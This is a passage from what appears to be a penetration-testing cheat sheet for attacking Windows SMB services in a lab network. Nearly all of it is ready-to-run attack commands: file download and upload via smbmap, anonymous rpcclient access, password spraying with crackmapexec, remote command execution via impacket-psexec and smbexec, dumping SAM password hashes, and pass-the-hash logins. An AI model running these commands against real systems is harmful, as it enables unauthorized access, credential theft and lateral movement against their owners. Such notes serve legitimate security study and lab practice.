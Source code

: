 ```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### rpcclient

```shell
rpcclient -U'%' 10.10.110.17
```

### inital access

```shell
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

#### RCE

- [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
- [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) - A similar approach to PsExec without using [RemComSvc](https://github.com/kavika13/RemCom). The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.

>impacket
```shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```

CME

```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Enumerating Logged-on Users

```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extract Hashes from SAM Database

```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### Pass-the-Hash (PtH)

```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

